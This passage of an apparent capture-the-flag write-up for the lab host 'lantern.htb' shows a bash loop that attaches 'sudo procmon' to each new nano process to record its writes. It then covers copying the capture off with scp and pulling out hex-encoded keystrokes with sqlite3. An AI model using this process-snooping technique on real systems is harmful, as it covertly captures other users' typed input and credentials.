 ```bash
#!/bin/bash

OLD_PID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')

while true; do
    NEWPID=$(ps -ef | grep -i nano | grep -v grep | awk '{print $2}')
    
    if [ "$OLD_PID" != "$NEWPID" ] && [[ -n "$NEWPID" ]]; then
        echo "We have a new PID! Old PID: $OLD_PID, New PID: $NEWPID"
        OLD_PID=$NEWPID
        sudo /usr/bin/procmon -p $NEWPID -e write -c nano$NEWPID.out
    fi
    
    sleep 5
done
```

*   **Transfer and Analyze the Output**:

    ```bash
    scp -i id_rsa tomas@lantern.htb:/path/to/nano10720.out nano10720.out
    ```

    The output file is in SQLite format; using SQLite3 to analyze it.

    \

*   **SQLite Query**:

    ```bash
    sqlite3 nano10720.out
    ```

    ```txt
    sqlite> .output out.txt
    ```

    Run the following query to filter out Hexadecimal Data

    ```sql
    sqlite> SELECT hex(substr(arguments, 9, resultcode)) FROM ebpf WHERE resultcode > 0 ORDER BY timestamp;
    ```

    \

*   **Data Interpretation**: Given the content of `out.txt`, which is a series of hexadecimal codes, it seems that the data represents a sequence of ASCII characters mixed with some control characters, particularly those associated with terminal or escape sequences (e.g., `1B5B` is an escape sequence commonly used in terminal emulation).\


    To interpret this data, you need to:

    * **Convert the Hexadecimal Data to ASCII**: Translate the hexadecimal values to their corresponding ASCII characters, while correctly handling escape sequences.
    * **Handle Escape Sequences**: Recognize and interpret any terminal escape sequences (like `1B5B` which is the ESC \[ sequence) that affect how text is displayed.
